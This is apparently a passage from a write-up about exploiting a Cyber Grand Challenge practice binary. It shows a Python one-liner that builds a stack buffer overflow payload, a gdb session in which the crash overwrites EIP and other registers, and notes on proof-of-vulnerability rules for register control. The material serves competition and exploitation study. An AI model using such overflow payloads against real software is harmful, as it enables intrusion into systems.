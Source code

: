 What address to give this instruction? Does it matter? Maybe maybe not. I choose 0xbaaaaed0, a stack address, not for any reason really. I just thought I’d try that in a hurry and we can see it was kind enough to work:

```
vagrant@crs:~/LEGIT_00003$ uname -a
Linux crs 3.13.11-ckt21-cgc #1 SMP Mon Feb 29 16:42:11 UTC 2016 i686 GNU/Linux
vagrant@crs:~/LEGIT_00003$ python -c 'print "1\n"+"A"*32+"\xd0\xae\xaa\xba"+"B"*20'
1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAЮ��BBBBBBBBBBBBBBBBBBBB
vagrant@crs:~/LEGIT_00003$ python -c 'print "1\n"+"A"*32+"\xd0\xae\xaa\xba"+"B"*20' > badstr.txt 
vagrant@crs:~/LEGIT_00003$ gdb -q ./legit_00003 
Reading symbols from ./legit_00003...(no debugging symbols found)...done.
gdb-peda$ r < badstr.txt 
Starting program: /home/vagrant/LEGIT_00003/legit_00003 < badstr.txt
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x30 ('0')
EBX: 0x0 
ECX: 0xbaaaae41 --> 0x41414100 ('')
EDX: 0xbaaaae42 ('A' <repeats 31="" times="">, "Ю\252\272", 'B' <repeats 12="" times="">)
ESI: 0x42424242 ('BBBB')
EBP: 0x42424242 ('BBBB')
ESP: 0xbaaaaf3c --> 0xbaaaaf82 --> 0x0 
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbaaaaf3c --> 0xbaaaaf82 --> 0x0 
0004| 0xbaaaaf40 --> 0x2 
0008| 0xbaaaaf44 --> 0xa ('\n')
0012| 0xbaaaaf48 --> 0x0 
0016| 0xbaaaaf4c --> 0x0 
0020| 0xbaaaaf50 --> 0x0 
0024| 0xbaaaaf54 --> 0x0 
0028| 0xbaaaaf58 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

Ok so we know what will give us EIP control and to be a valid PoV we also must demonstrate control of at least one other register from this list:

eax
ecx
edx
ebx
esp
ebp
esi
edi
Additional to just “control” of that register, it must have data independent to the EIP. So if somehow we overwrote both EIP and another register’s contents with the same 32 bits, well we need to try harder. In our case everything is 0x42424242 so we need to refine a little bit to check.
